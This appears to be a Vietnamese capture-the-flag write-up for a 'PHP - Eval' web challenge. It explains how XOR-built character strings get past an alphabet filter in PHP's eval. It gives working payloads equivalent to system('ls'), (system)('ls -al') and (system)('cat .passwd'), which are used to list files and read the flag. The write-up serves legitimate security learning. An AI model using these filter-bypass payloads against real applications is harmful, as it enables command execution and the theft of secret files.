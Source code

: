 ```diff
@@ Web-Server Challenge @@
```



## PHP - Eval [40 Points]

* Challenge cung cấp cho ta source code như sau

  ![4](img/4.jpg)

* Từ source code ta biết mục tiêu là bypass filter (lọc các ký tự alphabet) để thực thi các lệnh command line bằng hàm Eval. Vì các ký tự alphabet đều bị lọc nên ta thử tìm kiếm cách bypass và đọc được blog sau [đây](https://ironhackers.es/en/tutoriales/saltandose-waf-ejecucion-de-codigo-php-sin-letras/) 

  ![4-5](img/4-5.jpg)

* Cụ thể, ta có thể dùng phép toán XOR để tạo ra các ký tự như mong muốn (ví dụ  ... ). Ta tự viết một script để có thể tự động chuyển chuỗi của ta thành payload có thể bypass

  ![4-1](img/4-1.jpg)

* Với payload ```('^'^'-').('$'^']').('^'^'-').('^'^'*').('@'^'%').('@'^'-').'('.('['^'|').('@'^',').('^'^'-').('['^'|').')'``` (Tương đương với lệnh system('ls'). Kết quả ta thấy trang web chỉ in ra mà không thực thi hàm như mong muốn.

  ![4-2](img/4-2.jpg)

* Tới đây thì em không tìm được nguyên nhân mặc dù đã dựng lại môi trường tương tự. Thử search google thì thấy gợi ý về việc thay đổi cách gọi hàm. Cụ thể ta phải đổi cách gọi hàm thành dạng ```(function-name)(params)``` ví dụ (system)(ls) hoặc (system)('ls'). Điều này sẽ giúp PHP coi đoạn input đó là lệnh gọi hàm .. (maybe)

* Việc của bây giờ là đi tìm file chứa flag, thử với ```ls -al``` ta có

  - Payload ```(('^'^'-').('$'^']').('^'^'-').('^'^'*').('@'^'%').('@'^'-'))(('@'^',').('^'^'-').('~'^'^').'-'.('!'^'@').('@'^','))``` Tương đương với ```(system)(ls -al)```

  - Kết quả

    ![4-3](img/4-3.jpg)

* ```cat .passwd``` ta được kết quả

  * Payload ```(('^'^'-').('$'^']').('^'^'-').('^'^'*').('@'^'%').('@'^'-'))(('@'^'#').('!'^'@').('^'^'*').('~'^'^').'.'.('^'^'.').('!'^'@').('^'^'-').('^'^'-').('^'^')').('@'^'$'))``` tương đương với ```(system)(cat .passwd)```

  * Kết quả

    ![4-4](img/4-4.jpg)
